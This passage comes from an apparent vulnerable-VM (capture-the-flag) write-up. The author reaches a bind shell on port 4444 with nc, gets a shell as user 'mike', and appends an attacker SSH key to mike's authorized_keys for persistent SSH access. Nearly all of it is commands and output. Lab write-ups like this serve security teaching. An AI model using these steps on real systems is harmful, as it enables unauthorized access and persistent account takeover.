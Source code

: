 All of my attempts were followed by a nmap on `tcp/4444` to see if the shell has become available. After submitting the above code, we got a new port open (this Mike guy is pretty fast you should hire him!):

```bash
root@kali:~# nmap 192.168.56.101 -p 4444

Starting Nmap 6.47 ( http://nmap.org ) at 2014-12-23 11:33 SAST
Nmap scan report for 192.168.56.101
Host is up (0.00034s latency).
PORT     STATE SERVICE
4444/tcp open  krb524
MAC Address: 08:00:27:88:F8:40 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```

Awesome, so lets connect and see what we have:

```bash
root@kali:~# nc -v 192.168.56.101 4444
192.168.56.101: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.56.101] 4444 (?) open
ppid=10450
id
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

As was hoped for, a shell as `mike`. I quickly generated a new ssh key pair for Pegasus, and cat the public key to `mike`'s `authorized_keys` file and went on to SSH in as mike:

```bash
# first I cat the public key so that I can copy it
root@kali:~# cat pegasus.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNmUef7CT1sDk5YxLor/LVA9FHii/Aagxl86CtRNj24t+TA23K3/KwlfCabCRNwNBXbTWkUmYdNMAEvsv5nbPHhgqZRlmEBzltcmltatmfbhrGmND7cBQGOxZPlcsks0FThEJhNL5z5WS3PpyzA5GUKyn4cPFbXe88uz1SpeXaIC+8kJ5T+jOKu40nLF0iglBtiADQ1rOLMh2pFEZjQhVyE4ieqK7hyBrLlVyQY1bOUGdrguWcEJZUvWDRsa0VCOIXOdNeg3AsXPG/1KbIzubOfjieaTgs9Mhqg7C9vdL21dia48B5NRKl7GoS6xJx09tmXVvYMAt+Sut6OwBUTV+R root@kali

# next I connect to the bind shell listener and move to Mikes .shh directory
root@kali:~# nc -v 192.168.56.101 4444
192.168.56.101: inverse host lookup failed: Unknown server error : Connection timed out
(UNKNOWN) [192.168.56.101] 4444 (?) open
ppid=10450
cd .ssh

# next we append my public key to mikes authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNmUef7CT1sDk5YxLor/LVA9FHii/Aagxl86CtRNj24t+TA23K3/KwlfCabCRNwNBXbTWkUmYdNMAEvsv5nbPHhgqZRlmEBzltcmltatmfbhrGmND7cBQGOxZPlcsks0FThEJhNL5z5WS3PpyzA5GUKyn4cPFbXe88uz1SpeXaIC+8kJ5T+jOKu40nLF0iglBtiADQ1rOLMh2pFEZjQhVyE4ieqK7hyBrLlVyQY1bOUGdrguWcEJZUvWDRsa0VCOIXOdNeg3AsXPG/1KbIzubOfjieaTgs9Mhqg7C9vdL21dia48B5NRKl7GoS6xJx09tmXVvYMAt+Sut6OwBUTV+R" >> authorized_keys
ls -lh
total 12K
-rw-rw-r-- 1 mike mike  381 Dec 23 20:36 authorized_keys
-rw------- 1 mike mike 1.7K Nov 18 12:39 id_rsa
-rw-r--r-- 1 mike mike  222 Nov 18 17:39 known_hosts
chmod 600 authorized_keys
^C

# with the authorized_keys ready, I SSH in as mike using my key pair
root@kali:~# ssh mike@192.168.56.101 -i pegasus
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-39-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Dec 23 20:36:47 AEDT 2014
```